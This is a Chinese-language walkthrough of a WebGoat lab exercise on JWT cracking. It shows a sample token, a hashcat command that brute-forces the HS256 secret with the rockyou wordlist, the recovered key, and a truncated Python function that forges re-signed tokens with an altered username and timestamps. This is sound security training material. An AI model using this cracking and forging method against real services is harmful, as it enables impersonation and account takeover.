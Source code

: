 第一题选报错，第2题选正确调用
ok
![](../../images/Pasted%20image%2020241204200738.png)

### 2.5 JWT令牌破解

给的令牌

```
eyJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJhdWQiOiJ3ZWJnb2F0Lm9yZyIsImlhdCI6MTczMzI3MjY5NCwiZXhwIjoxNzMzMjcyNzU0LCJzdWIiOiJ0b21Ad2ViZ29hdC5vcmciLCJ1c2VybmFtZSI6IlRvbSIsIkVtYWlsIjoidG9tQHdlYmdvYXQub3JnIiwiUm9sZSI6WyJNYW5hZ2VyIiwiUHJvamVjdCBBZG1pbmlzdHJhdG9yIl19.h1puAT9Q6Suwip5l1Z8XBDTTFXg-G97CCmpR8aH3r9U

```

刚刚就爆破了密码，这次还是和上一次一样

看一下令牌信息
![](../../images/Pasted%20image%2020241205101702.png)

使用的是HS256，信息需要改用户名为webgoat

```
{"iss":"WebGoat Token Builder","aud":"webgoat.org","iat":1733272694,"exp":1733272754,"sub":"tom@webgoat.org","username":"WebGoat","Email":"tom@webgoat.org","Role":["Manager","Project Administrator"]}
```

破解命令

```shell
hashcat -m 16500 -a 0 eyJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJhdWQiOiJ3ZWJnb2F0Lm9yZyIsImlhdCI6MTczMzI3MjY5NCwiZXhwIjoxNzMzMjcyNzU0LCJzdWIiOiJ0b21Ad2ViZ29hdC5vcmciLCJ1c2VybmFtZSI6IlRvbSIsIkVtYWlsIjoidG9tQHdlYmdvYXQub3JnIiwiUm9sZSI6WyJNYW5hZ2VyIiwiUHJvamVjdCBBZG1pbmlzdHJhdG9yIl19.h1puAT9Q6Suwip5l1Z8XBDTTFXg-G97CCmpR8aH3r9U /usr/share/wordlists/rockyou.txt
```

![](../../images/Pasted%20image%2020241205101954.png)

密钥是`washington`

解出来的jwt还是要求时间戳
![](../../images/Pasted%20image%2020241205102624.png)

修改一下时间戳iat和过期时间exp就可以了

最后使用的代码


```python
def generate_token(secret_key, header, payload):  
    alg_str = header.get('alg')  
    print(alg_str)  
    head_str = json.dumps(header).replace(" ", "")  
    payload_str = json.dumps(payload).replace(" ", "")  
    print(head_str.encode('utf-8'))  
    print(payload_str.encode('utf-8'))  
    # 编码头部和有效载荷  
    encoded_header = base64url_encode(head_str.encode('utf-8'))  
    encoded_payload = base64url_encode(payload_str.encode('utf-8'))  
  
    # 创建签名  
    if alg_str == 'HS256':  
        signature = hmac.new(secret_key.encode('utf-8'), f"{encoded_header}.{encoded_payload}".encode('utf-8'), hashlib.sha256).digest()  
    else:  
        signature = hmac.new(secret_key.encode('utf-8'), f"{encoded_header}.{encoded_payload}".encode('utf-8'), hashlib.sha512).digest()  
  
```